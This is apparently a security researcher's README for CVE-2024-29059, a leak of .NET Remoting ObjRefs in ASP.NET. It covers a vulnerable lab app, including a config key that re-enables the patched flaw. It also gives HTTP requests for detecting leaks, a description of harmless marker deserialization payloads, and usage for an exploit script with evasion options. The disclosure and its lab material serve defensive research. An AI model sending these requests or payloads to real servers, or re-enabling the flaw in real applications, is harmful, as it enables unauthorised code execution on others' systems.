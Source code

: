 # Leaking and Exploiting `ObjRef`s via HTTP .NET Remoting (CVE-2024-29059)

This repository provides further details and resources on the [CODE WHITE blog post of the same name *Leaking ObjRefs to Exploit HTTP .NET Remoting*](https://code-white.com/blog/leaking-objrefs-to-exploit-http-dotnet-remoting/):

1. Creating a vulnerable ASP.NET web application
2. Detecting `ObjRef` leaks
3. Example deserialization payloads that work under the `TypeFilterLevel.Low` restrictions
4. Exploit script for delivering the payloads


## 1. Creating a Vulnerable ASP.NET Web Application

The following is based on [*Configure Application Insights for your ASP.NET website* by Microsoft](https://learn.microsoft.com/en-us/azure/azure-monitor/app/asp-net) and describes how to create a vulnerable ASP.NET web application with Visual Studio 2019 (required to target .NET Framework 4.5.2, you can still download it at <https://aka.ms/vs/16/release/vs_community.exe>) and Microsoft Application Insights:

1. Open Visual Studio 2019.
2. Select **File** > **New** > **Project**.
3. Select **ASP.NET Web Application (.NET Framework) C#**, then **Next**.
4. Select **.NET Framework 4.5.2**, then **Create**.
5. Select **Empty**, then **Create**.
6. Select **Project** > **Add Application Insights Telemetry**.
7. Select **Application Insights SDK (local)**, then **Next**.
8. Check **NuGet packages**, then click **Finish**.

If the .NET Framework updates of January 2024 are installed, open the `Web.config` file and add the following under [`/configuration/appSettings`](https://learn.microsoft.com/en-us/dotnet/framework/configure-apps/file-schema/appsettings/appsettings-element-for-configuration) to re-enable the vulnerable behavior:

```xml
<add key="microsoft:Remoting:LateHttpHeaderParsing" value="true" />
```

You can then run the web application via **Debug** > **Start Without Debugging** or by pressing Ctrl+F5.


## 2. Detecting `ObjRef` Leaks

You can use the following requests to leak `ObjRef`s of `MarshalByRefObject` instances stored in the `LogicalCallContext`:

- `BinaryServerFormatterSink`:

    ```
    GET /RemoteApplicationMetadata.rem?wsdl HTTP/1.0
    __RequestVerb: POST
    Content-Type: application/octet-stream
    ```

- `SoapServerFormatterSink`:

    ```
    GET /RemoteApplicationMetadata.rem?wsdl HTTP/1.0
    __RequestVerb: POST
    Content-Type: text/xml
    ```

Leaked `ObjRef` URIs can then be matched using the following regex:

```
/[0-9a-f_]+/[0-9A-Za-z_+]+_\d+\.rem
```


## 3. Example Deserialization Payloads

We have created two simple deserialization payloads based on the [*TextFormattingRunProperties* gadget of YSoSerial.Net](https://github.com/pwntester/ysoserial.net/blob/master/ysoserial/Generators/TextFormattingRunPropertiesGenerator.cs) with custom XAML payloads that work under the restrictions caused by `TypeFilterLevel.Low` to perform the following:

- `HttpContext.Current.Response.AddHeader("Set-Cookie", "x=ad92afb4-00c3-4479-bab8-2425b5716081")`
- `HttpContext.Current.Response.RedirectLocation = "/ad92afb4-00c3-4479-bab8-2425b5716081"`

The HTTP headers can be observed in the server's response to the HTTP .NET Remoting request.


## 4. Exploit Script

The `RemoteApplicationMetadata.py` script provides a way for leaking existing `ObjRef` and then using it in a subsequent request to deliver a given payload:

```
usage: RemoteApplicationMetadata.py [-h] [-c] [--chunk-range CHUNK_RANGE] [-e] [-f {binary,soap}] [-u] [-v] url [file]

positional arguments:
  url                   target URL (without `RemoteApplicationMetadata.rem`)
  file                  BinaryFormatter/SoapFormatter payload file (default: stdin)

options:
  -h, --help            show this help message and exit
  -c, --chunked         use chunked Transfer-Encoding for request
  --chunk-range CHUNK_RANGE
                        range to pick the chunk size from randomly, e. g., 1-10
  -e, --encoding        apply a random non ASCII-based encoding on SOAP
  -f {binary,soap}, --format {binary,soap}
                        targeted runtime serializer format (default: soap)
  -u, --use-generic-uri
                        use the generic `RemoteApplicationMetadata.rem` also for the payload delivery request
  -v, --verbose         print verbose info
```

Example:

```
./RemoteApplicationMetadata.py -f binary https://127.0.0.1:44365 AddHeader.bin -u -v
```
